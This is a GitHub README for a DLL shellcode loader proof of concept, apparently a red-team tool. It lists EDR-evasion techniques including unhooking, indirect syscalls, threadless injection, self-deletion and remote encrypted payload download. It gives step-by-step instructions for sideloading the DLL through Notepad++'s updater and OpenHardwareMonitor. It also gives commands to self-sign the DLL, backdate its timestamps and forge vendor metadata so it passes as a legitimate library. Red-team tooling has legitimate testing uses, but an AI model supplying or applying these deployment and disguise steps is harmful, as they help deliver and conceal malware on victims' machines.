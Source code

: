 [![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://opensource.org/licenses/MIT)
[![Follow @JimKwik_X](https://img.shields.io/twitter/follow/JimKwik_X?style=social)](https://x.com/JimKwik_X)

# A DLL Shellcode Loader POC

![image](Images/loader.png)

# Techniques used:
- NTDLL.dll unhooking
- Indirect Syscalls
- Rop Gadgets 
- Anti analysis by self deleting after execution
- [Threadless injection](https://github.com/CCob/ThreadlessInject) with  with HWBP
- Remote payload download over HTTPs with a customed header for authtication
- VEH unhooking
- DLL sideload
- Payload AES encryption on the fly 

Compile in Visual Studio -> `x64` -> `Release`

# Usage:

# **Run by Rundll32.exe**

Add `#Define badger` on the top of [dllmain.c](https://github.com/JimKw1kX/Dll-Shellcode-Loader/blob/main/DllLoader/DllLoader/dllmain.c) as the entry point is defined in [here](https://github.com/JimKw1kX/Dll-Shellcode-Loader/blob/main/DllLoader/DllLoader/dllmain.c#L199)

Run as:

```js
rundll32.exe Dllloader.dll,run
```

# **Sideload [Notepad++](https://notepad-plus-plus.org/)**

1. Add `#Define NOTEPAD` on the top of [dllmain.c](https://github.com/JimKw1kX/Dll-Shellcode-Loader/blob/main/DllLoader/DllLoader/dllmain.c) as the entry point is defined in [here](https://github.com/JimKw1kX/Dll-Shellcode-Loader/blob/main/DllLoader/DllLoader/dllmain.c#L212)

2. Rename `Dllloader.dll` to `libcurl.dll` and place it in [updater](./updater/) folder

3. Run `updater.exe` in the [updater](./updater/) folder to sideload the dll

# **Sideload [OpenHardwareMonitor](https://openhardwaremonitor.org/)**

1. Add `#Define MONITOR` on the top of [dllmain.c](https://github.com/JimKw1kX/Dll-Shellcode-Loader/blob/main/DllLoader/DllLoader/dllmain.c) as the entry point is defined in [here](https://github.com/JimKw1kX/Dll-Shellcode-Loader/blob/main/DllLoader/DllLoader/dllmain.c#L169)


2. Rename `Dllloader.dll` to `DWrite.dll` and place it in [OpenHardwareMonitor](./OpenHardwareMonitor/OpenHardwareMonitor/) folder

3. Run `OpenHardwareMonitor.exe` in the [OpenHardwareMonitor](./OpenHardwareMonitor/OpenHardwareMonitor/) folder to sideload the dll



# 💡Tips:

- Use the [signtool](./signtool/) to sign a ceritifcate on the DLL some EDRs flag unsigned dlls straightaway such as Elastic and change the date similar to the orginal 

![elastic](./Images/Elastic.png)

- **Signtool Powershell commands**

```js
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -sha256 -days 365

openssl pkcs12 -inkey key.pem -in cert.pem -export -out sign.pfx

signtool sign /f sign.pfx /p password /t http://timestamp.digicert.com /fd sha256 DWrite.dll

```
- **Changing dates**

```js
$x = "DWrite.dll"
$(Get-Item $x).creationtime=$(Get-Date "03/3/2024")
$(Get-Item $x).lastwritetime=$(Get-Date "03/3/2022")
$(Get-Item $x).lastaccesstime=$(Get-Date "07/23/2024")
```

- **Add metadata to the DLL and do not leave it blank**#


Add a `Resource.rc` file in Visual Studio and the following metadata for `DWrite.dll` so it looks like this

![DWrite](./Images/Dwritre.png)

```js
1 VERSIONINFO
 FILEVERSION 9.6.0.0 // File version separated by commas
 PRODUCTVERSION 0.9.6.0
 FILEFLAGSMASK 0x0L
#ifdef _DEBUG
 FILEFLAGS 0x1L
#else
 FILEFLAGS 0x0L
#endif
 FILEOS 0x0L
 FILETYPE 0x0L
 FILESUBTYPE 0x0L
BEGIN
    BLOCK "StringFileInfo"
    BEGIN
        BLOCK "040904B0"
        BEGIN 
            // Modify the values below
            VALUE "CompanyName", "(C) 2009-2020 Michael Möller"
            VALUE "FileDescription", "Open Hardware Monitor Library"
            VALUE "InternalName", "Chrome"
            VALUE "LegalCopyright", "(C) 2009-2020 Michael Möller"
            VALUE "OriginalFilename", "OpenHardwareMonitorLib.dll"
            VALUE "ProductName", "Open Hardware Monitor Library"
            VALUE "ProductVersion", "0.9.6"
        END
    END
    BLOCK "VarFileInfo"
    BEGIN
        VALUE "Translation", 0x409, 1200
    END
END
```


# ⚠️ Disclaimer: 
Always tweak the code during an enagament, this is just a POC but its not good to add everything in one loader. Its better to use stagers to prevent the main C2 shellcode gets burnt. 

# Video Demo

Click [here](https://drive.google.com/file/d/1LenFbhhj8n7esZXn6NXPdZ-pDy8bTdjx/view) to see the full demo.
